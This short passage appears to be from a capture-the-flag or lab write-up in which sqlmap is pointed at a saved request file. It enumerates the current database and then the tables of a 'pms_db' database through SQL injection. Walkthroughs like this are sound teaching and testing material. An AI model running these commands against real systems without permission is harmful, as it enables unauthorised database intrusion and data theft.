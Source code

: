 We save the request in a file called `request.txt`, to use it with sqlmap.

```
sqlmap -r request.txt --level 5 --risk 3 --current-db
```

![sqlmap current-db](../../assets/images/securitron/image-16.png)

We retrieve the tables of the `pms_db` database:

```
sqlmap -r request.txt --level 5 --risk 3 -D pms_db --tables
```

![sqlmap tables](../../assets/images/securitron/image-17.png)
